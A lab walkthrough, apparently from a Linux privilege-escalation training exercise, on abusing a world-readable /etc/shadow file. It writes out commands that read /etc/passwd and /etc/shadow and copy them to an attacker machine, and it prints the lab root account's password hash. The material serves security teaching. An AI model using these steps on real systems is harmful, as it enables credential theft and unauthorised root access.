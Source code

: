 
# [Task 6] Privilege Escalation - Weak File Permissions

**Detection**

Linux VM

1. In command prompt type: `ls -la /etc/shadow`
2. Note the file permissions

The `/etc/shadow` file is readable by anybody, which is incorrect.

~~~
TCM@debian:~$ ls -la /etc/shadow
-rw-rw-r-- 1 root shadow 809 Jun 17 23:33 /etc/shadow
~~~

**Exploitation**

Linux VM

1. In command prompt type: `cat /etc/passwd`
2. Save the output to a file on your attacker machine

~~~
TCM@debian:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
statd:x:103:65534::/var/lib/nfs:/bin/false
TCM:x:1000:1000:user,,,:/home/user:/bin/bash
~~~

3. In command prompt type: `cat /etc/shadow`
4. Save the output to a file on your attacker machine

~~~
TCM@debian:~$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
~~~